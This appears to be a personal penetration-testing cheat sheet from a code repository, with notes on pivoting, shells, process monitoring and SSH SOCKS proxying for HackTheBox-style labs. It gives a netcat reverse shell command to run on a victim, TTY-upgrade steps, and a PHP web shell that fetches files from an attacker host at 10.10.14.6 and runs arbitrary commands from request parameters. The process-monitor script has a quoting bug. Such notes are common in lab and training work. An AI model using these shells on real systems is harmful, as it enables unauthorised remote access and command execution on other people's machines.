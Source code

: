 # Pivoting
Example: https://www.youtube.com/watch?v=HQkDL-xh7es

# Shells

## Prettifying reverse nc shells
Example: Ippsec videos -> Bank, Apocalyst

On the attacker:
  nc -lvnp <attacker_port>
On the victim:
  nc -c /bin/sh <attacker_ip> <attacker_port>
In the shell:
  python -c 'import pty;pty.spawn("/bin/bash")'
  Ctrl+Z to background the nc session
  stty raw -echo
  fg # to resume the session

Making vim's size prettier:
  On the attacker:
    stty size
      48 168
  On the victim:
    stty rows 48 cols 168

## PHP shell
```php
$phpCode = <<<'EOD'
<?php
	if (isset($_REQUEST['fupload'])) {
		file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.6:8090/" . $_REQUEST['fupload']));
	};
	if (isset($_REQUEST['fexec'])) {
		echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
	};
?>
EOD;
```

## Process monitor in linux

```
#!/bin/bash

IFS=$'\n'

old_process=$(ps -eo command)

while true; do
  new_process=$(ps -eo command)
  diff <(echo "$old_process") <(echo $"new_process")
  sleep 1
  old_process=$new_process
done
```


# Misc

# This command generates dynamic socks proxy through ssh connection
ssh -D1080 <server_ip>
# Now if I connect to 127.0.0.1:1080, request will go through ssh to the server
vi /etc/proxychains.conf
  socks5 127.0.0.1 1080
proxychains curl <another_server>
